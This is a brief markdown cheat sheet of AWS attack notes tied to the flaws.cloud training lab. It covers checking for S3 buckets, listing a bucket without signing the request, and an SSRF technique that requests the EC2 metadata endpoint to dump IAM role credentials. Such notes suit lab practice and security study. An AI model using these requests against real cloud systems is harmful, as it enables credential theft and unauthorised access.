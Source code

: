 # AWS


## AWS S3

### Check if domain is on a bucket
```bash
dig +nocmd flaws.cloud any +multiline +noall +answer
```


### List a bucket
```bash
aws s3 ls s3://flaws.cloud/ --no-sign-request --region us-west-2
```

## SSRF on AWS to get credentials

On AWS there is a metadata server that can be accessed through the REST API
located at: `http://169.254.169.254`.
Sending a GET requests to the following endpoint will dump a list of roles that
are attaches to the current EC2 instance.

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

## Resources

- [flaws.cloud](http://flaws.cloud/)
